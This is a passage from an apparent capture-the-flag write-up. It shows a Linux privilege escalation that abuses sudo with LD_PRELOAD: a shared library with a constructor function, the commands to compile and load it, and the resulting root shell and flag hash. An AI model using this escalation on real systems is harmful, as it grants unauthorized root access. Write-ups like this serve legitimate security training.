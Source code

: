 // Tell the linker to call `my_init` when the shared library is loaded
__attribute__((constructor)) void init() {
    my_init();
}
```
// Now compile it.

```gcc -shared -o /tmp/libexploit.so -fPIC exploit.c```

// Now giving permission.

```chmod +x /tmp/libexploit.so```

// run our exploit.

```sudo LD_PRELOAD=/tmp/libexploit.so /bin/pwd```

// i got root shell ###

```
root@django-mango:~# id
uid=0(root) gid=0(root) groups=0(root)
root@django-mango:~# cat root.txt
36aae751565a95a822e628d630b5973f

```
